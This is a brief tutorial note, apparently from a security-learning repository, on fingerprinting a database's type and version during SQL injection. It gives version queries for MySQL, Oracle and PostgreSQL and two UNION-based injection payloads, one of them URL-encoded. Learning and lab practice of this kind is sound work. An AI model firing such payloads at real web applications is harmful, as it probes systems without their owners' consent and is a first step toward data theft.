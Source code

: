 ### Querying the database type and version.

Depending on the database type, we can use their SQL commands to determine the type and version of the database software. 
Some of the commands to determine the database version include:
1. MySQL
```sql
SELECT @@version
```
2. Oracle
```sql
SELECT * FROM v$version
```
3. PostgreSQL
```sql
SELECT version()
```

We can try this attack by performig a `UNION` attack by using the following payload
```sql
' UNION SELECT @@version--
```

```sql
'+UNION+SELECT+*+FROM+v%24version--
```
